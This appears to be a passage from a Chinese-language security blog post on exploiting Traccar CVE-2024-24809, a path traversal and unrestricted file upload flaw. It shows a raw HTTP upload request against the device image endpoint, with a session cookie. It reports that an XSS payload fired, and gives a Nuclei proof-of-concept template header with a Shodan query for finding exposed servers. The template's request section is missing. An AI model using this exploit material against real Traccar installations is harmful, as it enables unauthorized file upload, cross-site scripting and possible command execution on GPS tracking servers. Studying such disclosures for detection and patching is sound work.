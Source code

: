 ![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGv9LicVJicUAAdGc6ibLKGZvJzlGDjRNGdgDbuFQnxqNLZkXJDoUF8GFubQibcgmztnpLBMfWnlF9btzA/640?wx_fmt=png&from=appmsg "")  
  
  
6、再次上传文件  
```
POST /api/devices/{device_id}/image HTTP/1.1
Host: xxx
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: image/HUyjxWsW
Cookie: JSESSIONID=node04gx7rfnhjqgzm9ljql5tg9vn83.node0
Content-Length: 20

hPrctfuSZzpXdTTGcqvO
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGv9LicVJicUAAdGc6ibLKGZvJzDU33iabaSbFiaPzw4GibuiaLbSNjPxuyPNlpyZ1COAMmIyyAlZFYNNYN6g/640?wx_fmt=png&from=appmsg "")  
  
访问上传成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGv9LicVJicUAAdGc6ibLKGZvJzvibPfqJy4FbzvfxBaf121ASfRwWjo0IsfX1hVkIRdbicBaC5SKCtJ0CQ/640?wx_fmt=png&from=appmsg "")  
  
可以上传一个xss payload也是成功弹窗  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGv9LicVJicUAAdGc6ibLKGZvJzibeBDcVqo6890AfCUYPVJJbzKgJZZEL59kgzvg2W7Qz8fHeP9nQbvQw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGv9LicVJicUAAdGc6ibLKGZvJz7oPgibBhfVpyznicw4KS0G3icDBCfaryBPZTt1r9lN5FTVwQZIeZprmsQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: CVE-2024-24809

info:
  name: Traccar - An authentication bypass vulnerability
  author: Ghost_sec
  severity: high
  description:
    Traccar is an open source GPS tracking system. Versions prior to 6.0 are vulnerable to path traversal and unrestricted upload of file with dangerous type. Since the system allows registration by default, attackers can acquire ordinary user permissions by registering an account and exploit this vulnerability to upload files with the prefix `device.` under any folder. Attackers can use this vulnerability for phishing, cross-site scripting attacks, and potentially execute arbitrary commands on the server. Version 6.0 contains a patch for the issue.
  reference:
    - https://github.com/traccar/traccar/commit/b099b298f90074c825ba68ce73532933c7b9d901
    - https://notcve.org/view.php?id=CVE-2024-24809
    - https://nvd.nist.gov/vuln/detail/CVE-2024-24809
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:N/I:H/A:L
    cvss-score: 8.5
    cve-id: CVE-2024-24809
    cwe-id: CWE-27
    epss-score: 0.00043
    epss-percentile: 0.09551
  metadata:
    verified: true
    max-request: 1
    shodan-query: app:"Traccar"
  tags: cve,cve2024,traccar,rce,intrusive,file-upload
```
